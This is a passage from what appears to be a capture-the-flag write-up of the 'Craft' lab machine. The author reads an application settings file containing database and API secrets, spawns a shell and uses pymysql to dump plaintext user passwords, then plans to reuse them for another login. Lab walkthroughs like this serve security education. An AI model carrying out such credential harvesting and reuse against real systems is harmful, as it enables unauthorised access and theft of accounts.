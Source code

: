 The `settings.py` file contains the MySQL credentials and the shared api key.

```
/opt/app/craft_api # cat settings.py
# Flask settings
FLASK_SERVER_NAME = 'api.craft.htb'
FLASK_DEBUG = False  # Do not use debug mode in production

# Flask-Restplus settings
RESTPLUS_SWAGGER_UI_DOC_EXPANSION = 'list'
RESTPLUS_VALIDATE = True
RESTPLUS_MASK_SWAGGER = False
RESTPLUS_ERROR_404_HELP = False
CRAFT_API_SECRET = 'hz66OCkDtv8G6D'

# database
MYSQL_DATABASE_USER = 'craft'
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'
SQLALCHEMY_TRACK_MODIFICATIONS = False
```

The MySQL client is not installed on this machine but I can use the pymysql Python module to query the database.

```
/opt/app # python -c 'import pty;pty.spawn("/bin/sh")'
/opt/app # python
Python 3.6.8 (default, Feb  6 2019, 01:56:13) 
[GCC 8.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import pymysql
>>> connection = pymysql.connect(host='172.20.0.4', user='craft', password='qLGockJ6G2J75O',
    db='craft', cursorclass=pymysql.cursors.DictCursor)
>>> cursor = connection.cursor()
>>> cursor.execute("show tables")
2
>>> cursor.fetchall()
[{'Tables_in_craft': 'brew'}, {'Tables_in_craft': 'user'}]
>>> cursor.execute("select * from user")
3
>>> cursor.fetchall()                   
[{'id': 1, 'username': 'dinesh', 'password': '4aUh0A8PbVJxgd'},
 {'id': 4, 'username': 'ebachman', 'password': 'llJ77D8QFkLPQB'},
 {'id': 5, 'username': 'gilfoyle', 'password': 'ZEU3N8WNM2rh4T'}]
```

So I found a few more credentials:
 - `ebachman / llJ77D8QFkLPQB`
 - `gilfoyle / ZEU3N8WNM2rh4T`

I can log in to the Gogs website with Gilfoyle's credentials:
